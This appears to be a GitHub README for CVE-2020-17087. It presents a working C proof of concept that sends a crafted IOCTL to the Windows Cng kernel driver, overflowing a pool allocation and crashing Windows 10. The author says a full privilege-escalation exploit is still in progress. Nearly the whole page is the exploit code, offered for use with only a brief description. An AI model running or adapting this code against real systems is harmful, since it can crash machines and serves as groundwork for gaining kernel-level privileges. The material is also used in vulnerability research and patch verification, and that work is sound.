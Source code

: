 # CVE2020-17087
Elevation Of Privileges Proof of Concept for Windows (win7-win10)

A serious EOP Exploit for Windows OS has been released by Google Project Zero.

I have tested it on WIN 10 and it is working i.e it successfully crashes the system.

    #pragma comment(lib, "ntdll")

    #include <cstdio>
    #include <windows.h>

    int main() {
      HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
      printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
      return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    //
    // DataBufferSize overflows when used for allocating memory in
    // cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
    //
    // In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
    // bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
    //
    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)    &IoctlData[0x04] = 0x10400;
    *(DWORD*)    &IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)    &IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)    &IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
      hCng,
      0x390400,
      IoctlData,
      IoctlSize,
      &OutputBuffer,
      sizeof(OutputBuffer),
      &BytesReturned,
      NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
  }
 
 


https://bugs.chromium.org/p/project-zero/issues/detail?id=2104


---------------------Waiting for the development of the exploit ------------------------

